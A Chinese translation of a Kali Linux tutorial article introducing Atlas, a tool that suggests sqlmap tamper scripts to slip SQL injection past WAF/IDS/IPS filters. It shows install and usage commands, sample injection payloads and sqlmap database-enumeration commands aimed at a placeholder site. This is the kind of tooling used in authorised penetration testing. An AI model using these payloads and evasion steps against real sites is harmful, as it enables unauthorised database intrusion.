


# atlas–建议快速篡改 sqlmap

> 原文：<https://kalilinuxtutorials.com/atlas/>

Atlas 是一个开源工具，可以建议 sqlmap 篡改以绕过 WAF/IDS/IPS，该工具基于返回的状态代码。



## **图集安装**

```
**$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py** 
```

**也可阅读[dex 2 jar——与 Android 协同工作的工具。dex & Java。类文件](https://kalilinuxtutorials.com/dex2jar-android-java/)**

## **用法****T3`T5`**

 ````
`$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --dbms=mysql --random-agent -v`
```

 `## **截图**



## **例子**

1.  运行 SQLMap:

```
`$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3` 
```


`**Price_ASC') AND 8716=4837 AND ('yajr'='yajr**`被 WAF/IDS/IPS 屏蔽，现在用 Atlas 尝试:

```
`$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v` 
```


此时:

```
**$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...** 
```

[](https://github.com/m4ll0k/Atlas)``